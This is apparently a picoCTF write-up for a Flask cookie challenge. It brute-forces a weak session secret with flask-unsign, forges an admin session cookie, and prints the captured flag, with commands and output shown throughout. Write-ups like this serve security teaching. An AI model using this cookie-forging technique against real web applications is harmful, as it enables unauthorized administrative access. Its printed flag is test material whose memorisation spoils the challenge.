


## Inspiration
Realizing that we must typing a string in `cookie_names`:
```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter",
                "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop",
                "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie",
                "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```
to be redirected to `/display`:
```python
@app.route("/search", methods=["GET", "POST"])
def search():
    if "name" in request.form and request.form["name"] in cookie_names:
        resp = make_response(redirect("/display"))
        session["very_auth"] = request.form["name"]
        return resp
    else:
        message = "That doesn't appear to be a valid cookie."
        category = "danger"
        flash(message, category)
        resp = make_response(redirect("/"))
        session["very_auth"] = "blank"
        return resp
```
But we can't completely to see the flag if just typing them:
```python
@app.route("/display", methods=["GET"])
def flag():
    if session.get("very_auth"):
        check = session["very_auth"]
        if check == "admin":
            resp = make_response(render_template("flag.html", value=flag_value, title=title))
            return resp
        flash("That is a cookie! Not very special though...", "success")
        return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
    else:
        resp = make_response(redirect("/"))
        session["very_auth"] = "blank"
        return resp
```
Trying input `snickerdoodle` we gain this cookie `eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZXnj1w.9t7YTtM_-cE7c65aS0Qb3IsIwDg`
[flask's cookie](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)

Decode with `base64` the session data (first part) of cookie we gain that:
```
$ python3                 
Python 3.11.6 (main, Oct  8 2023, 05:06:43) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> base64.urlsafe_b64decode('eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0===')
b'{"very_auth":"snickerdoodle"}'
```
It's clear that we must to create a cookie with `{"very_auth":"admin"}` by ourselves, and the requirement is knowing the secret key.

## Solution
To find out the secret key, using [flask-unsign](https://pypi.org/project/flask-unsign/)
```
$ sudo pip install flask-unsign
```
Save the cookie of input `snickerdoodle` to `cookie.txt`
Decode the cookie:
```
$ flask-unsign --decode --cookie < cookie.txt 
{'very_auth': 'snickerdoodle'}                       
```
Find the secret key (`wordlist.txt` contain all `cookie_names`):
```
$ flask-unsign --unsign --cookie < cookie.txt --wordlist wordlist.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
```
Then, generate our own cookie with secret key `peanut butter` with [this code](https://github.com/noraj/flask-session-cookie-manager)
```
$ flask_session_cookie_manager3.py encode -s 'peanut butter' -t "{'very_auth':'admin'}"
```
Output: `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZXnu3w.cSj_Be5BfJ0IaGsSyp6JB860jjY`

Put it in Burp Repeater:

Flag: `picoCTF{pwn_4ll_th3_cook1E5_478da04c}`
